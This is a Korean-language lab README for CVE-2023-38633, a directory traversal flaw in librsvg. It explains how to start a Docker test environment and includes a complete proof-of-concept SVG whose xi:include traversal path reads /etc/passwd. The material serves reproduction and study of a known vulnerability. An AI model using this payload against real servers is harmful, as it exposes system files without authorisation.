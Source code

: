# CVE-2023-38633

**Contributors**

-   [이승환(@EL55)](https://github.com/EL55)

<br/>

### 요약

- Librsvg는 GNOME 프로젝트의 일부로 작성된 무료 소프트웨어 SVG 렌더링 라이브러리로, 가볍고 이식성이 뛰어남.
- 2.56.3 이전의 librsvg의 URL 디코더에서 Directory Traversal 문제는 로컬 또는 원격 공격자가 파일(예상 영역 밖의 로컬 파일 시스템에 있는)을 노출하는 데 사용될 수 있음.
- xi:include 요소에서 `href=".?../../../../../../../../../../etc/passwd"`와 같은 방식으로 사용될 수 있음.
- xi: include 요소에서 `href="?"?/../../.././etc/passwd`에 의해 알 수 있음.

<br/>

### 환경 구성 및 실행

-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.
-   `http://your-ip:8080/`에 접속하여 업로드 페이지에 접근함.
-    SVG 이미지(poc.svg)를 서버에 업로드하면 `/etc/passwd`가 포함된 이미지가 표시됨.

<br/>

### poc.svg

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="300" height="300" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="300" height="300" style="fill:rgb(255,255,255);" />
  <text x="10" y="100">
    <xi:include href=".?../../../../../../../../../../etc/passwd" parse="text" encoding="UTF-8">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</svg>
```

<br/>

### 결과

![](1.png)
